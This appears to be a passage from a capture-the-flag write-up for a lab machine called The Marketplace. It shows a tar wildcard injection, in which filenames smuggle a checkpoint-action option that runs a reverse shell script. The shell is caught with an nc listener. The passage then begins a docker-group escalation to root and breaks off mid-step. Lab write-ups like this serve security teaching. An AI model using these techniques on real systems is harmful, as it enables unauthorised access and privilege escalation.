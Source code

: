 2. Create 2 files to trigger the reverse shell:

```
jake@the-marketplace:/opt/backups$ echo "" > "--checkpoint=1"

jake@the-marketplace:/opt/backups$ echo "" > "--checkpoint-action=exec=sh revshell.sh"
```

3. Setup a `nc` listener and run the `sudo` command:

```
┌──(root💀siunam)-[~/ctf/thm/ctf/The_Marketplace]
└─# nc -lnvp 443
listening on [any] 443 ...

jake@the-marketplace:/opt/backups$ sudo -u michael /opt/backups/backup.sh

┌──(root💀siunam)-[~/ctf/thm/ctf/The_Marketplace]
└─# nc -lnvp 443
listening on [any] 443 ...
connect to [10.18.61.134] from (UNKNOWN) [10.10.102.127] 57820
michael@the-marketplace:/opt/backups$ whoami;hostname;id;ip a
whoami;hostname;id;ip a
michael
the-marketplace
uid=1002(michael) gid=1002(michael) groups=1002(michael),999(docker)
[...]
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc fq_codel state UP group default qlen 1000
    link/ether 02:bf:a1:53:5e:5f brd ff:ff:ff:ff:ff:ff
    inet 10.10.102.127/16 brd 10.10.255.255 scope global dynamic eth0
       valid_lft 2251sec preferred_lft 2251sec
    inet6 fe80::bf:a1ff:fe53:5e5f/64 scope link 
       valid_lft forever preferred_lft forever
[...]
```

And we're `michael`!

## michael to root

In the above `id`'s output, we can see that michael is inside the `docker` group, which means we can escalate to root by spawning a insecure docker container!

```
michael@the-marketplace:/opt/backups$ docker images
REPOSITORY                   TAG                 IMAGE ID            CREATED             SIZE
themarketplace_marketplace   latest              6e3d8ac63c27        24 months ago       2.16GB
nginx                        latest              4bb46517cac3        2 years ago         133MB
node                         lts-buster          9c4cc2688584        2 years ago         886MB
mysql                        latest              0d64f46acfd1        2 years ago         544MB
alpine                       latest              a24bb4013296        2 years ago         5.57MB
```

To do so, I'll:
